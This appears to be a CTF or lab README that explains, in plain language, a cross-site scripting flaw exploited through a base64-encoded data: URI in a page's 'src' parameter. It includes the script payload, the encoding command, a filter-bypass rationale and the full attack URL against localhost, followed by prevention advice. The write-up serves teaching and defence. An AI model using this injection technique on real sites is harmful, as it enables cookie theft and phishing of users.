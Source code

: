 # README — Simple,  explanation of the issue (with `hello world` example)

> Purpose: a short and very plain English explanation for people who aren’t web developers or security folks.
> Audience: someone who found this page in a CTF or a learning lab and wants to understand what happened and why it’s important.

---


---

## 1 — What the vulnerability is (OWASP Classification)


This falls under **OWASP Top 10 - A03:2021 Injection**, specifically **Cross-Site Scripting (XSS)**. It's a client-side code injection attack where untrusted data is included in a web page without proper validation or escaping, allowing attackers to execute malicious scripts in victims' browsers.

**Attack Vector**: Data URI injection through an unsanitized URL parameter.

---

## 2 — Why `data:` URIs matter

* A `data:` URI lets you put the content directly in the URL.
* Instead of pointing to an image file, it can *contain* a tiny HTML page.
* If the site renders it without checking, the browser runs that HTML.

---

## 3 — How the attack works

1. Identify the vulnerable parameter (`src`).
2. Make a small HTML snippet:

```html
<script>alert('hello world')</script>
```

3. Encode it in Base64:

```bash
echo "<script>alert('hello world')</script>" | base64
```
>Why Base64 in that attack flow?
data: URIs must contain safe ASCII and Bypasses naive filters that look for '   script' or other tokens

* It gives me this

```txt
PHNjcmlwdD5hbGVydCgnaGVsbG8gd29ybGQnKTwvc2NyaXB0Pgo=
```


4. Build a `data:` URI:

```
data:text/html;base64,<BASE64_HERE>
```


5. Replace `src` in the URL with your `data:` URI.


* It will become 
```txt 
http://localhost:8080/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnaGVsbG8gd29ybGQnKTwvc2NyaXB0Pgo=
```

6. Visit the URL — the browser runs your JavaScript.

---

## 4 — Why this is risky

Even though our example just shows `alert('hello world')`, the same method can:

* Show fake content or phish users.
* Steal cookies or session tokens.
* Modify the page or load malicious resources.

---

## 5 — How to prevent it

* Don’t trust user input. Only allow known filenames.
* Disallow `data:`, `javascript:`, or unexpected schemes.
* Validate input length and characters.
* Serve files from a safe location, not from raw input.
* Consider Content Security Policy (CSP) to block inline scripts.
* Escape or sanitize user-provided content before rendering.
